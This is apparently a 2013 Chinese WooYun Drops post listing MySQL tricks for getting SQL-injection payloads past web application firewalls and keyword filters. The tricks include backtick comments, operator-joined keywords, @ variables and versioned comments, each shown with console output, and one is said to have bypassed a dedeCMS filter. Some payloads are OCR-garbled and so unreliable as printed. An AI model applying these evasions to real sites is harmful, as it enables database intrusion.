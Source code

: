 # waf 绕过的技巧

2013/05/31 17:41 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

研究过国内外的 waf。分享一些 奇淫绝技。

一些大家都了解的技巧如：/*!*/,SELECT[0x09,0x0A-0x0D,0x20,0xA0]xx FROM 不再重造轮子。

Mysql

## tips1: 神奇的 `  (格式输出表的那个控制符)

过空格和一些正则。

```
mysql> select`version`() 
    -> ;  
+----------------------+  
| `version`()          |  
+----------------------+  
| 5.1.50-community-log |  
+----------------------+  
1 row in set (0.00 sec) 
```

一个更好玩的技巧，这个`控制符可以当注释符用（限定条件）。

```
mysql> select id from qs_admins where id=1;`dfff and comment it; 
+----+  
| id |  
+----+  
| 1  |  
+----+  
1 row in set (0.00 sec) 
```

usage : where  id ='0'`'xxxxcomment on.

## tips2:神奇的- + .

```
mysql> select id from qs_admins;  
+----+  
| id | 
+----+  
| 1  |  
+----+  
1 row in set (0.00 sec)

mysql> select+id-1+1.from qs_admins;  
+----------+  
| +id-1+1\. |  
+----------+  
| 1        |  
+----------+  
1 row in set (0.00 sec)

mysql> select-id-1+3.from qs_admins;  
+----------+  
| -id-1+3\. |  
+----------+  
| 1        |  
+----------+  
1 row in set (0.00 sec) 
```

（有些人不是一直在说关键字怎么过？过滤一个 from ...    就是这样连起来过）

## tips3: @

```
mysql> select@¹.from qs_admins;  
+------|+  
| @¹\. |  
+------|+  
| NULL |  
+------|+ 
```

这个是 bypass  曾经 dedeCMS filter .

或者这样也是 ok.

## tips4：mysql function() as xxx  也可以不用 as 和空格

```
mysql> select-count(id)test from qs_admins;  
+------|+  
| test |  
+------|+  
| -1   |  
+------|+  
1 row in set (0.00 sec) 
```

## tips5:/*![>5000]*/ 新构造  版本号（这个可能有些过时了。）

```
mysql> /\*!40000select\*/ id from qs_admins;  
+----+  
| id |  
+----+  
|  1 |  
+----+  
1 row in set (0.00 sec) 
```

先分享这么多，哈。

**Tags:** [waf](http://drops.wooyun.org/tag/waf)

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)
*   [攻击 JavaWeb 应用[4]-SQL 注入[2]](http://drops.wooyun.org/tips/288)
*   [DVWA 中学习 PHP 常见漏洞及修复方法](http://drops.wooyun.org/papers/483)
*   [攻击 JavaWeb 应用[6]-程序架构与代码审计](http://drops.wooyun.org/tips/429)
*   [Mysql Trigger](http://drops.wooyun.org/tips/3435)
*   [fuzzing XSS filter](http://drops.wooyun.org/tips/879)